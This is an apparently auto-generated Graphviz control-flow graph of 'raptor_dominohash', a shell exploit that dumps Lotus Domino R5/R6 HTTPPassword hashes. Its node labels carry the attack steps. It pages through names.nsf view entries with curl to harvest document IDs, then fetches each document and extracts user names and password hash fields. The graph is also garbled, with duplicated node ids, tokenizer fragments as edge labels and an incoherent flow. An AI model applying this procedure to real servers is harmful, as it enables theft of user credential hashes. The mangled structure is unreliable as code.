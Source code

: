 digraph {
0 [label="i=1 "];
0 -> 0
2 [label="tmp1=dominohash1.tmp "];
2 -> 4 [label="N,"];
4 [label="tmp2=dominohash2.tmp "];
4 -> 4
6 [label="host=$1 "];
6 -> 6
128 [label="echo  "];
128 -> 10 [label="N,N,function,(,),SC,{,"];
10 [label="echo raptor_dominohash - Lotus Domino R5/R6 HTTPPassword dump "];
10 -> 12 [label="\n,"];
12 [label="echo Copyright (c) 2007 Marco Ivaldi <raptor@0xdeadbeef.info> "];
12 -> 128 [label="\n,"];
128 [label="echo  "];
128 -> 128 [label="\n,"];
128 [label="echo  "];
128 -> 18 [label="\n,},N,function,(,),SC,{,"];
18 [label="exit 0 "];
18 -> 52 [label="\n,"];
52 [label="header "];
52 -> 22 [label="\n,},N,function,(,),SC,{,"];
22 [label="echo usage  : ./raptor_dominohash <host> "];
22 -> 24 [label="\n,"];
24 [label="echo example: ./raptor_dominohash 192.168.0.202 "];
24 -> 129 [label="\n,"];
129 [label="footer "];
129 -> 52 [label="\n,"];
52 [label="header "];
52 -> 30 [label="\n,},N,function,(,),SC,{,"];
30 [label="echo error  : curl not found "];
30 -> 129 [label="\n,"];
129 [label="footer "];
129 -> 34 [label="\n,"];
34 [label="curl=`which curl 2>/dev/null` "];
34 -> 36 [label="\n,},"];
36 [label="which curl /dev/null "];
36 -> 118 [label="N,N,"];
118 [label="/dev/null "];
118 -> 118
66 [label="[ $? -ne 0 ] "];
66 -> 42 [label="SC,N,if,"];
42 [label="notfound "];
42 -> 44 [label=";,then,"];
44 [label="[ -z $1 ] "];
44 -> 46 [label="fi,SC,N,if,"];
46 [label="usage "];
46 -> 48 [label=";,then,"];
48 [label="rm -f $tmp1 "];
48 -> 50 [label="fi,"];
50 [label="rm -f $tmp2 "];
50 -> 50
52 [label="header "];
52 -> 52
54 [label="echo Extracting the view entries... "];
54 -> 54
56 [label=": "];
56 -> 58 [label="SC,N,while,"];
58 [label="curl http://${host}/names.nsf/$defaultview?Readviewentries&Start=${i} /dev/null "];
58 -> 118 [label="do,N,"];
118 [label="/dev/null "];
118 -> 118
62 [label="grep unid $tmp1 "];
62 -> 64 [label="N,"];
64 [label="$tmp1 "];
64 -> 64
66 [label="[ $? -ne 0 ] "];
66 -> 68 [label="\n,SC,N,if,"];
68 [label="break "];
68 -> 70 [label=";,then,"];
70 [label="i=`expr $i + 30` "];
70 -> 72 [label="fi,\n,"];
72 [label="expr $i + 30 "];
72 -> 74 [label="N,N,"];
74 [label="echo -ne bbbbbbbb$i "];
74 -> 76 [label="\n,"];
76 [label="cat $tmp1 "];
76 -> 78 [label="\n,done,N,"];
78 [label="awk -Funid= {print $2} "];
78 -> 80 [label="N,"];
80 [label="awk -F {print $1} "];
80 -> 82 [label="N,"];
82 [label="sort "];
82 -> 84 [label="N,"];
84 [label="uniq $tmp2 "];
84 -> 86 [label="N,"];
86 [label="$tmp2 "];
86 -> 86
88 [label="[ ! -s $tmp2 ] "];
88 -> 90 [label="SC,N,if,"];
90 [label="echo No entries found on host ${host}! "];
90 -> 129 [label=";,then,"];
129 [label="footer "];
129 -> 94 [label="\n,"];
94 [label="echo -ne bbbbbbbbDone!  "];
94 -> 96 [label="\n,fi,"];
96 [label="echo , word=\"`wc -l ${tmp2} | awk '{print $1}'` unique entries have been found.\" "];
96 -> 96
98 [label="wc -l ${tmp2} "];
98 -> 100 [label="N,N,"];
100 [label="awk {print $1} "];
100 -> 128 [label="N,"];
128 [label="echo  "];
128 -> 128
104 [label="echo Now ready to dump password hashes... "];
104 -> 104
128 [label="echo  "];
128 -> 128
108 [label="sleep 4 "];
108 -> 108
110 [label="cat $tmp2 "];
110 -> 112 [label="SC,N,for,in,N,"];
112 [label="echo [http://${host}/names.nsf/$defaultview/${unid}] "];
112 -> 128 [label="do,"];
128 [label="echo  "];
128 -> 116 [label="\n,"];
116 [label="curl http://${host}/names.nsf/$defaultview/${unid}?OpenDocument /dev/null "];
116 -> 118 [label="\n,N,"];
118 [label="/dev/null "];
118 -> 118
120 [label="egrep \"FirstName\"|\"LastName\"|\"ShortName\"|\"HTTPPassword\" "];
120 -> 122 [label="N,"];
122 [label="awk -Finput name= {print $2} "];
122 -> 124 [label="N,"];
124 [label="awk -F type=hidden value= {print $1 \":\\t\" $2} "];
124 -> 126 [label="N,"];
126 [label="tr -d \"> "];
126 -> 128 [label="N,"];
128 [label="echo  "];
128 -> 129 [label="\n,"];
}
